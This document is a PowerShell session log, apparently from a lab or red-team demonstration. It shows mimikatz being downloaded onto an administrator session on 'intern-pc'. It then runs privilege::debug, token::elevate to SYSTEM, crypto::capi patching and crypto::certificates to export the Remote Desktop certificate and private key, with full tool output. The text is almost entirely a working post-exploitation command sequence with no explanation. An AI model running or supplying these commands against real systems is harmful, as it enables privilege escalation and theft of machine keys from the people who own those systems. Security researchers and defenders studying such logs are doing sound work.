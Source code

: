     
    PS C:\Users\Administrator> whoami
    intern-pc\administrator
    PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
    PS C:\Users\Administrator> Expand-Archive .\mimi.zip
    PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
    PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit
    
      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
    
    mimikatz(commandline) # privilege::debug
    Privilege '20' OK
    
    mimikatz(commandline) # token::elevate
    Token Id  : 0
    User name : 
    SID name  : NT AUTHORITY\SYSTEM
    
    496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
     -> Impersonated !
     * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
     * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)
    
    mimikatz(commandline) # crypto::capi
    Local CryptoAPI RSA CSP patched
    Local CryptoAPI DSS CSP patched
    
    mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
     * System Store  : 'LOCAL_MACHINE' (0x00020000)
     * Store         : 'Remote Desktop'
    
     0. INTERN-PC
        Subject  : CN=INTERN-PC
        Issuer   : CN=INTERN-PC
        Serial   : ffb1d93a1df0324cadd5e13f3f9f1b51
        Algorithm: 1.2.840.113549.1.1.1 (RSA)
        Validity : 11/22/2023 9:18:19 PM -> 5/23/2024 9:18:19 PM
        Hash SHA1: a0168513fd57577ecc0204f01441a3bd5401ada7
    	Key Container  : TSSecKeySet1
    	Provider       : Microsoft Enhanced Cryptographic Provider v1.0
    	Provider type  : RSA_FULL (1)
    	Type           : AT_KEYEXCHANGE (0x00000001)
    	|Provider name : Microsoft Enhanced Cryptographic Provider v1.0
    	|Key Container : TSSecKeySet1
    	|Unique name   : f686aace6942fb7f7ceb231212eef4a4_c5d2b969-b61a-4159-8f78-6391a1c805db
    	|Implementation: CRYPT_IMPL_SOFTWARE ; 
    	Algorithm      : CALG_RSA_KEYX
    	Key size       : 2048 (0x00000800)
    	Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
    	Exportable key : NO